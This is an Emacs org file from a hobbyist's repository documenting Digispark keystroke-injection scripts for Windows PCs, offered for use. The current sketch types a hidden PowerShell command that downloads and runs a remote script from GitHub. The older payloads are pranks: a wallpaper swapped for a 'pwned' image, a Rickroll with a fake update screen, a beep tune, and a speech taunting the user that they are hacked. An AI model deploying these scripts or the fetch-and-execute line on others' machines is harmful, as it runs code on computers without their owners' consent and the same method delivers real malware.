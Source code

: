 #+TITLE: My Digispark playground
#+auto_tangle: t


* :toc:
- [[#about][About]]
- [[#my-current-digispark-ino-script-and-powershell-payload][My current Digispark .ino script and Powershell payload]]
  - [[#digispark-script-powershellino][Digispark script (Powershell.ino)]]
  - [[#my-payload-scriptps1][My payload (script.ps1)]]
- [[#old-files][Old files]]
  - [[#digispark-scripts][Digispark scripts]]
  - [[#payloads][Payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* My current Digispark .ino script and Powershell payload

** Digispark script (Powershell.ino)

A script that will open powershell and run a payload from a server. The powershell script "script.ps1" can be found in the code block below the next. When the Powershell.ino script is executed the red led is switched on and the Digispark can be removed.

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

** My payload (script.ps1)
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Create a backup of the current desktop background!
copy "c:\Users\Public\Pictures\Desktop_bio.jpg" "c:\Users\Public\Pictures\Desktop_bio_backup.jpg"

# Source the picture that will become the new desktop background
$url ="https://art.ngfiles.com/images/832000/832240_kincaid1_pwned.png?f1551138718"

# Destation file
$dest ="c:\Users\Public\Pictures\Desktop_bio.jpg"

# Download the file and write
Invoke-WebRequest -Uri $url -OutFile $dest

## Uncomment the following to revert back!
##
## Save the powned image
#copy "c:\Users\Public\Pictures\Desktop_bio.jpg" "c:\Users\Public\Pictures\Desktop_bio_powned.jpg"
##
## Replace the backed up picture
#copy "c:\Users\Public\Pictures\Desktop_bio_backup.jpg" "c:\Users\Public\Pictures\Desktop_bio.jpg"
#+end_src


* Old files

** Digispark scripts

*** Rickroll

#+begin_src C
 //This DigiSpark script opens up Rick Astley's - Never Gonna Give You Up and also a fake Windows update screen and then maximizes it using F11
#include "DigiKeyboard.h"
void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("https://youtu.be/dQw4w9WgXcQ?t=43s");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("http://fakeupdate.net/win10ue");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_F11);
  //Finished. Now show a red LED to indicate the the payload is deployed
  digitalWrite(1, HIGH);
  for(;;){ /*empty*/ }
}
#+end_src


** Payloads
*** Imperial March on buzzer
Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src


*** Talk to user (two voices) and download textfile
#+begin_src shell
# Source URL
$url ="https://www.gnu.org/licenses/old-licenses/gpl-2.0.txt"
# Destation file
$dest = "c:\temp\gpl.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 120
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
#Womans voice
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("yo yo yo sheeple")
#Mans voice
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right?")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Oh yes indeed, hacked and powned. Wave to the camera sheeple!")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("yeah they are checking the camera!")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("whahaha")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Ni nano ninei. Just warming up my vocal chords. I will give a speech to you soon but i'm gonna download some files first.")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Hey, you found the GPL. Nice. Go ahead and bore the silly sheeple! Bye the way, please log out when you leave your pc, otherwise it can be seriously compromised.")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak($text)

#+end_src

